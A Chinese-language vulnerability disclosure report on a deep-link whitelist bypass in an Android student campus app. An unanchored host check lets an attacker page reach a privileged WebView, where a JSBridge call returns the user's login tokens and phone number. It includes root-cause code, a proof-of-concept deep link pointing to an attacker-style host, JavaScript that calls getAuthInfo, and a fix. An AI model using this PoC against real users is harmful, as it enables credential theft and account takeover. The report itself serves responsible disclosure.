

# 闪动校园学生端 深链白名单绕过导致 JSBridge 越权调用

[English](REPORT.md)

## 概览

| 项 | 内容 |
|---|---|
| 报告人 | tyldx (tyldx@proton.me) |
| 报告日期 | 2026-11-18 |
| 类型 | 深链白名单绕过致 JSBridge 越权调用 (CWE-183, 关联 CWE-346 / CWE-749) |
| 受影响对象 | `com.huachenjie.shandong_school` 8.8.1 (versionCode 26102914,SHA-256 `f317bfd9fa27a042a7d6755f9b608ca5630640dbcd2e6cf22983eefa5ea469cd`),更早版本未验证 |
| 影响 | 攻击者域名令目标 WebView 加载任意页面,`getAuthInfo` 取回 token/satoken/phone,可导致账号接管 |
| CVSS 3.1 | 8.1 (High) `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N` |
| 触发 | 已登录用户点击攻击者构造的深链并确认打开即可触发;部分 App 内置浏览器可能拦截。 |
| 厂商通知状态 | 已通知(2026-11-18,通过邮箱 shandongxinxifuwu@163.com),尚未收到回复 |

## 根因

导出入口 (`AndroidManifest.xml`):

```xml
<activity android:name=".third.ThirdTransferActivity" android:exported="true">
  <intent-filter>
    <data android:scheme="shandong" android:host="huanchenjie.com" android:path="/ThirdTransfer"/>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.BROWSABLE"/>
  </intent-filter>
</activity>
```

白名单校验 (`ThirdTransferActivity.onCreate`):

```java
try { host = new URI(h()).getHost(); }
catch (Exception unused) { host = ""; }
if (Intrinsics.areEqual(f(), "/base/d_webview")) {
    if (!StringsKt.endsWith(host, "huachenjie.com", false)) { finish(); return; }
}
i();
```

`endsWith` 无点边界,`<x>huachenjie.com` 过检。

装载与桥 (`/base/d_webview` → `PayWebViewActivity` extends `DWebViewActivity`):

```java
this.f38479n0 = intent.getStringExtra("url");        // DWebViewActivity:175
this.f38476k0.getWebView().loadUrl(this.f38479n0);   // DWebViewActivity:202
// WebContentView:253  addJavascriptObject(new JavascriptApi(webView), null)
```

`JavascriptApi` 挂在默认命名空间,页面经 `_dsbridge.call("getAuthInfo", …)` 取凭证。

## PoC

完整代码见 [`poc/`](poc/)。

**关键代码**

绕过 host 校验的深链:

```
shandong://huanchenjie.com/ThirdTransfer?path=/base/d_webview&url=https://<attacker>huachenjie.com/evil.html
```

目标 WebView 内调用桥取凭证:

```js
var cb = "__cb";
window[cb] = function (r) { console.log("getAuthInfo", r); };
window._dsbridge.call("getAuthInfo", JSON.stringify({ data: null, _dscbstub: cb }));
```

## 动态验证记录

PoC 页面在目标 WebView 内取回凭证(脱敏):



改绑手机号仅验证新手机号,不验证原手机号:

| 步骤 | 截图 |
|---|---|
| 个人设置 | `evidence/screenshots/01-personal-settings.png` |
| 账号管理 | `evidence/screenshots/02-account-management.png` |
| 绑定新手机号 | `evidence/screenshots/03-bind-new-phone.png` |
| 输入新号与验证码 | `evidence/screenshots/04-enter-number-and-code.png` |
| 提交成功 | `evidence/screenshots/05-submitted.png` |

攻击者持被盗 satoken 调用同一接口完成接管为凭证等价性推断,未实测。

## 影响

`getAuthInfo` (`JavascriptApi.java:1301`) 向攻击者页面返回受害者的 token、satoken、userId、nickName、avatar、sex、phone。攻击者据此以受害者身份调用后端接口 `run-front/*`,并可改绑手机号,使原用户无法找回账号,可导致账号接管。

此外,该 JSBridge 还暴露了支付、启动任意 URI 等方法(见附录),可能进一步扩大攻击面。

## 边界

所有测试均在官方线上 App 中,使用本人注册并控制的测试账号进行;未针对任何第三方账号实施,未获取或使用他人凭证及数据。

局限:仅在 Android 版 8.8.1(Android 17)上测试,iOS 版及其他版本未实测。

## CWE / CVSS

CWE:

- 主 CWE-183 允许规则过宽:`host.endsWith("huachenjie.com")` 无点边界,`<x>huachenjie.com` 过检 (`ThirdTransferActivity.onCreate`)
- 关联 CWE-346 源校验失效,攻击者 URL 进入特权 WebView
- 关联 CWE-749 WebView 暴露敏感 JS 方法 (`getAuthInfo` 等)

CVSS 3.1:`AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N` = 8.1 (High)。

- AV:N 深链经网页链接远程触达
- AC:L 无额外条件,URL 直接过检
- PR:N 攻击者无需任何权限
- UI:R 需受害者点击深链
- S:U 影响局限于目标应用授权范围
- C:H `getAuthInfo` 泄露 token/satoken/phone
- I:H 可冒充调 `run-front/*`,改绑手机锁死原主
- A:N 服务整体可用性不受影响

## 修复建议

`host` 改精确匹配或带点边界的后缀校验,替换无锚定的 `endsWith`:

```java
host.equals("huachenjie.com") || host.endsWith(".huachenjie.com")
```

## 披露时间线

- 2026-11-18 查询厂商官网、security@ 邮箱、/.well-known/security.txt,均未发现安全联络方式
- 2026-11-18 向厂商邮箱 shandongxinxifuwu@163.com 报告
- 2026-11-18 提交 CNVD(CNVD-C-2026-941784)
- 2026-11-19 App 内客服:无安全入口,人工客服排队数百人

## 附录:方法清单

| 方法 | 功能 | 方法 | 功能 |
|---|---|---|---|
| `androidPay` | 发起 Android 支付 | `openLink` | ARouter 打开 `Common.c` webview |
| `backToHome` | 返回首页 | `openMallCatPage` | 打开商城分类页 |
| `bindWeixinAccount` | 绑定微信账号 | `openMallCustomerService` | 打开商城客服 |
| `captchaVerify` | 验证码验证 | `openMallGoodsDetail` | 打开商品详情 |
| `chooseImage` | 调起图片选择器 | `openMallMessage` | 打开商城消息 |
| `clearWebCache` | 清 WebView 缓存 | `openMallOrderDetail` | 打开订单详情 |
| `copyToClipboard` | 写入剪贴板 | `openMallShopDetail` | 打开店铺详情 |
| `deleteFilmMoment` | 发本地广播删除视频动态 | `openMerchantCustomerService` | 打开商家客服 |
| `getAppInfo` | 返回应用信息 | `openStarDrillRecharge` | 星钻充值 UI |
| `getAppVersion` | 返回应用版本 | `openSuperPack` | 超级包购买 UI |
| `getAuthInfo` | 返回 `token / satoken / userId / nickName / avatar / sex / phone` | `openTaskList` | 打开任务列表 |
| `getLocationInfo` | 返回经纬度与省市 | `openTkLink` | 打开 TK 链接 |
| `getNIMFriendList` | 返回云信好友列表 | `openToBidRewardAD` | 竞价奖励广告 |
| `getPermissionStatus` | 返回权限状态 | `openWeixinMiniProgram` | 打开微信小程序 |
| `getUserInfo` | 返回用户资料 | `saveToPhotoAlbum` | 写入相册 |
| `goBack` | WebView 返回 | `shareFilm` | 分享视频 |
| `goHWHealthHome` | 跳转华为运动健康 | `shareImage` | 分享图片 |
| `luckyDrawEvent` | 抽奖事件 | `shareLink` | 分享链接 |
| `modelLoaded` | 模型加载回调 | `shareText` | 分享文本 |
| `openApplication` | ACTION_VIEW 启动 JS 指定 URI | `showTradePay` | 显示交易支付 UI |
| `openBuddyTeamChat` | 打开/建立好友群聊 | `spineReady` | Spine 资源就绪回调 |
| `openCrystalExchange` | 水晶兑换 UI | `suitLoaded` | 套装加载回调 |
| `openInternalLink` | ARouter 打开 `/base/d_webview` |  |  |